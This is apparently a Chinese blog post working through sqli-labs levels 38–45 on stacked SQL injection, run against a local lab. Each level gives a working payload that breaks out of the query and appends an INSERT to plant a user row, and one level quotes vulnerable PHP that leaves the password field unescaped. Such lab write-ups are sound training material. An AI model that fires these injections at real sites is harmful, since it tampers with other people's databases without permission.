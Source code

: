 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      sqli-labs做题记录(三)               # 标题 
subtitle:   Stacked Injections #副标题
date:       2019-08-24              # 时间
author:     Von                      # 作者
header-img: img/post-bg-unix-linux.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# Less-38
这道题其实是在Advanced Injections中，但是我觉得它是属于堆叠注入的，放在第三篇较为合适。  
在SQL中，分号（;）是用来表示一条sql语句的结束。我们在;结束一个sql语句后继续构造下一条语句,就会同时执行多条SQL语句。  
联合注入也是执行多条语句，其与堆叠注入的区别就在于union执行的语句类型是有限的，只可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。  
但是堆叠注入并不是完美的，在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。  
因此，在读取数据时，我们建议使用union注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。 
需要注意的是,Oracle无法使用堆叠注入。

简单测试了下，发现是'闭合且没有过滤。构造语句:
```
127.0.0.1/sqli-labs-master/Less-38/?id=1'; insert into users(id,username,password)values('100','test','TEST')--+
```
这时发现数据库中已经插入了数据。  
![](http://VonLYC.github.io/img/blog11-1.png)
本题之所以可以使用堆叠注入是因为题目中使用了mysqli_multi_query,而通常的mysqli_query只能对数据库执行一次操作。  

# Less-39
本题和Less-39的区别就是本关是数值型注入。不需要闭合。
```
127.0.0.1/sqli-labs-master/Less-39/?id=1; insert into users(id,username,password)values('100','test','TEST')--+
```

# Less-40
没有错误提示消息,经过测试可以发现闭合为')。故payload为:  
```
127.0.0.1/sqli-labs-master/Less-40/?id=1'); insert into users(id,username,password)values('100','test','TEST')--+
```

# Less-41
和Less-39一样，区别在于没有错误提示消息，只能用盲注，但是不影响我们的堆叠注入.payload为:
```
127.0.0.1/sqli-labs-master/Less-41/?id=1; insert into users(id,username,password)values('100','test','TEST')--+
```

# Less-42
POST型注入,看一下关键代码:  
``` php
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];

....

 $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
可以看出,password是没有过滤的，因此可以在password进行注入。  
```
password:1'; insert into users(id,username,password)values('100','test','TEST')#
```

# Less-43
通过报错信息可以知道闭合方式为').payload如下:  
```
password:1'); insert into users(id,username,password)values('100','test','TEST')#
```

# Less-44
这道题和Less-42的区别就是这道题关闭了报错提示。只能通过盲注，但是payload是相同的。  
```
password:1'; insert into users(id,username,password)values('100','test','TEST')#
```

# Less-45
这道题和Less-43的区别就是这道题关闭了报错提示。只能通过盲注，但是payload是相同的。  
```
password:1'); insert into users(id,username,password)values('100','test','TEST')#
```
(吐槽一下，从Less-38到Less-45挺无语的，都是同个套路)  

# Less-46



